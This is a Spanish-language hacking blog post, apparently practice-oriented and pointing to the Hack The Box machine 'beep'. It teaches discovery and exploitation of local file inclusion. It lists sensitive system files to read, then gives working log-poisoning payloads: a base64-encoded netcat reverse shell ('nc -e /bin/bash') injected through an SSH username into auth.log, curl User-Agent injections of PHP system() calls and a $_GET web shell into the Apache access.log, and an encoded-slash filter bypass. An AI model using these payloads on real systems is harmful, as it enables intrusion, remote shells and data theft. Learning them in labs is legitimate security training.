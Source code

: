 ```yaml
---
layout: single
title: Descubrimiento y explotacion de LFI (local file inclusion)
date: 2022-05-16
classes: wide
header:
   teaser: /assets/images/hacker-directorios.jpeg
categories:
  -vulnerabilidades
  
  
tags:
  -hacking
---
```



Hola , hoy os voy a enseñar como explotar y descubrir la vulnerabilidad LFI (local file inclusion) ademas os indico una maquina 
muy para poder praticar.


esta es una vulnerabilidad la cual se suele dar en paginas cuya url llama a algunos archivos del sistema ej: http://ejemplo.com/login?file=login.php.

para poder ver algunas rutas podemos cambiar el destino y en vez de poner login.php podemos poner cualquier archivo del sistema.



      rutas peligrosas en local file inclusion:
      /etc/passwd filtrar por grep = $sh (para ver los usurarios)
      una vez tenemos lo que parece un usuario.
      lo probamos con el
      /home/usuario





una vez que hemos descubierto la vulnerabilidad , para explotarla podemos acceder a estas rutas peligrosas



     otra ruta peligrosa es
    /proc/sched_debug (enumeracion de los progresos del sistema)
    /proc/net/fib_trie (direcciones ip)
    /var/log/auth.log (todos los logs del sistema)



ahora vamos a explotar el poder leer el archivo auth.log






     para conseguir una ejecucion de comandos necesitamos acceder al archivo /var/log/auth.log
     una vez tenemos el archivo podemos crear un payload y codificarlo en base 64 :
     echo "nc -e /bin/bash <ip> 433 | base64; echo
     este es un ejemplo
     echo"nc -e /bin/bash 10.10.105.17 433" | base64; echo
     una vez tenemos el codigo lo copiamos
     este seria el payload final:
     echo "bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjEwNS4xNyA0MzMK" | base64 -d | bash
     ahora con ssh nos intetamos conectar con el paylodad:
     ssh <?php system("echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjEwNS4xNyA0MzMK | base64 -d | bash
     "); ?> @10.10.105.17 



si no encotramos el archivo o el firewall nos rechaza la conexio podemos probrar a buscar el archivo /var/log/apache2/a>
una vez aqui podemos modificar el user agent con curl para ejecutar comandos:





    si no encotramos el archivo o el firewall nos rechaza la conexio podemos probrar a buscar el archivo /var/log/apache2/a>
    una vez aqui podemos modificar el user agent con curl para ejecutar comandos:
    esto se haria tal que asi:
    curl -s -H "User-Agent: <?php system("which nc"); ?>" "http://10.10.105.17/lfi/lfi.php?page=/var/log/apache2/access.log"
    esto no ejecutara el comando que especificamos en system("") en este caso para ver si podremos obtener una shell con netcat





esta seria otra forma






     otra forma de hacerlo seria utilizando (otra vez el access.log , que se encuentra en la ruta /var/log/apache/access.log
     asi podremos ver los logs y los user agents
     modificando el user agent podemos injectar codigo tal que asi:
     curl "http://example.htb -H "User-Agent : <?php system(\$_GET['bash']); ?>"




algunas paginas utilizan filtros a la hora de filtrar los strings /../ asi que podemos utilizar este:
%ef%bc%8f

MAQUINAS PARA PRACTICAR:
   beep -> hack the box
